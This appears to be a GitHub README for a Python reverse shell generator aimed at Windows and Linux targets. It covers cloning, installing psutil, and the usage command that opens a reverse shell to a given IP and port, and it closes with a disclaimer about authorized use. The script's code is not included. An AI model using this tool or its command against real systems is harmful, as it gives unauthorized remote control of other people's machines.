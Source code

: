 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/

Change into the project directory:

bash
Copy code
cd reverse-shell-generator
Install the required dependencies (in this case, psutil):

bash
Copy code
pip install psutil
Configuration
No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.

Usage
To create a reverse shell, you can use this script as follows:

For Windows:

bash
Copy code
python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
For Linux:

bash
Copy code
python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
How to Run the Code
To run the code, follow the usage instructions provided in the "Usage" section above.

Make sure you have the required dependencies installed.
Replace TARGET_IP with the IP address of the target machine.
Replace PORT_NUMBER with the port number to connect to on the target machine.
The script will create a reverse shell connection to the specified IP and port.

Contributing
Contributions to this project are welcome. If you'd like to contribute, please follow these guidelines:

Fork the repository.
Create a new branch for your feature or bug fix.
Make your changes and submit a pull request.
Please ensure your code follows the project's coding standards and is properly documented.

License
This project is licensed under the MIT License - see the LICENSE file for details.

Acknowledgments
Mention any contributors or references you'd like to acknowledge.
Use this script responsibly and only with proper authorization. Unauthorized use may be illegal and unethical.
